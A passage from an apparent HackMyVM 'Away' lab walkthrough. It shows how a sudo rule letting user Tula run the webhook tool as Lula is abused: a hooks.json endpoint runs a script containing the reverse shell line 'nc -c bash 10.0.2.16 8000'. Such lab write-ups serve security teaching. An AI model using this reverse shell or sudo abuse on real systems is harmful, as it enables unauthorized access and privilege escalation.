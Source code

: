 
From the result above, we can see that the /usr/bin/more binary has the [cap_dac_read_search](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search) capability. Unfortunately, we cannot execute this binary as we do not have permission to do so. Also, we can see that the user Tula can execute the /usr/bin/webhook as the user Lula. This binary looks new to us and has no entry in GTFOBins. A quick Google search reveals that [webhook](https://github.com/adnanh/webhook) is a tool available on GitHub and it is used to create HTTP endpoints on a server to execute configured commands. 
![](/assets/img/posts/walthrough/hackmyvm/2024-09-22-away/webhook-info.png)

Since we can run this tool as the user Lula, we can create an endpoint that will execute a reverse shell command to gain access to the system as Lula. Let's follow the instructions on the [README.md](https://github.com/adnanh/webhook/blob/master/README.md) page of this tool on GitHub. First, we start by creating a configuration file that contains the name of our endpoint and the name of the files containing the configured commands.
```bash
tula@away:/tmp$ nano hooks.json
tula@away:/tmp$ cat hooks.json 
[
  {
    "id": "reverse-shell",
    "execute-command": "/tmp/reverse_shell.sh",
    "command-working-directory": "/tmp"
  }
]
```
Next, we would like to create that file by placing a reverse shell payload in the file.
```bash
tula@away:/tmp$ nano reverse_shell.sh
tula@away:/tmp$ chmod 755 reverse_shell.sh
tula@away:/tmp$ cat reverse_shell.sh 
#!/bin/sh
nc -c bash 10.0.2.16 8000
```

Now we can start the HTTP endpoint as the user Lula using the sudo command.
```bash
tula@away:/tmp$ sudo -u lula /usr/bin/webhook -hooks hooks.json -verbose
[webhook] 2024/09/22 00:40:14 version 2.6.9 starting
[webhook] 2024/09/22 00:40:14 setting up os signal watcher
[webhook] 2024/09/22 00:40:14 attempting to load hooks from hooks.json
[webhook] 2024/09/22 00:40:14 os signal watcher ready
[webhook] 2024/09/22 00:40:14 found 1 hook(s) in file
[webhook] 2024/09/22 00:40:14   loaded: reverse-shell
[webhook] 2024/09/22 00:40:14 serving hooks on http://0.0.0.0:9000/hooks/{id}
```
